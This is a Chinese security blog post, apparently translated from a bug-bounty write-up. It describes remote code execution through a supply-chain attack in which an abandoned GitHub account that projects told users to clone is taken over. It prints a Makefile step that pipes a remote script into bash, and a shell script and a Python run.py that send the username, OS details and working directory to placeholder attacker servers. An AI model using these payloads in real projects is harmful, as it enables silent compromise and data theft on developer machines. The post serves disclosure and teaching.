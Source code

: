 #  RCE   
 迪哥讲事   2025-05-07 14:58  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4236  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnkJopjTAeBLic5ZZn74HdicSyGpgfgCtgT2OicibkyvyWYvSwMs8EorRSw2oJMoW0CfxkW48Go575ypg/640?wx_fmt=png&from=appmsg "")  
  
file  
# 前言  
  
今天分享国外白帽小哥在 H1 的一个私有项目上发现 RCE 漏洞的故事，出于隐私原因，文中实际目标程序统一由“redacted”代替。  
# 攻击方式  
  
该漏洞源于在多个项目中持续使用无人认领的 GitHub 帐户。  
## 寻找易受攻击的存储库：  
- github.com/redacted-developer/redacted-search  
  
- github.com/redacted-developer/LLM-something  
  
- 其它项目等  
  
## 利用废弃的 GitHub 帐户  
  
一个关键发现是多个仓库指示用户从未声明的 GitHub 帐户克隆依赖项，例如：  
```
git clone https://github.com/Unclaimed-github-account/redacted-something-search.gitcd redacted-something-search/cp .env.template .envmake deploy
```  
  
由于 Unclaimed-github-account 已被废弃，因此我们能够将其注册到自己的控制之下。  
  
一旦获得了仓库的所有权，攻击者就可以将恶意代码 （ Makefile 和 poc.sh ）上传到开发人员构建和部署过程中克隆的存储库中。  
```
deploy: curl https://raw.githubusercontent.com/Unclaimed-github-account/redacted-something-search/refs/heads/main/poc.sh | bash
```  
  
恶意 poc.sh：  
```
#!/bin/bashusername=$(whoami)os_details=$(uname -a)current_directory=$(pwd)data="username=$username&os_details=$os_details&current_directory=$current_directory"curl -X POST -d "$data" https://<attacker_server>
```  
  
make deploy  
 会命令触发了 Makefile  
 ，下载并执行恶意 poc.sh 脚本，从而导致在受害者的机器上执行远程代码。  
## LLM-something 存储库中的相同问题  
  
同样在 LLM-something 存储库中，用户被指示安装依赖项并运行应用程序：  
```
pip install -r requirements.txtstreamlit run run.py
```  
  
通过修改 run.py 文件来‘悄悄’收集敏感信息，例如：  
- 用户名  
  
- 操作系统详细信息  
  
- 当前工作目录  
  
- IP 地址  
  
恶意 run.py 的代码片段：  
```
import osimport platformimport requestsimport streamlit as stusername = os.getlogin()current_directory = os.getcwd()os_info = platform.system() + " " + platform.release()server_url = "https://<attacker-server>/log"data = {"username": username,"directory": current_directory,"os": os_info}try: response = requests.post(server_url, data=data) st.success(f"Info sent to server! Response: {response.status_code}")except Exception as e: st.error(f"Error sending data: {e}")st.title("System Info Sender")st.write("User info has been sent automatically when you started this app.")
```  
# 漏洞时间线  
- Day0： 发现、利用并向厂商提交报告  
  
- Day7：报告分类，严重程度从 “严重” 降级为 “高” （原因是需要用户交互）  
  
- Day7：获得赏金 2500 美元奖励  
  
- Day23：Unclaimed-github-account 的所有权转回厂商  
  
- Day25：漏洞修复  
  
希望本故事对你有所启发。  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
  
  
往期回顾  
# 如何绕过签名校验  
#   
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
[‍](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
  
  
原文：https://infosecwriteups.com/the-2500-bug-remote-code-execution-via-supply-chain-attack-3beb07ac1a4c  
  
  
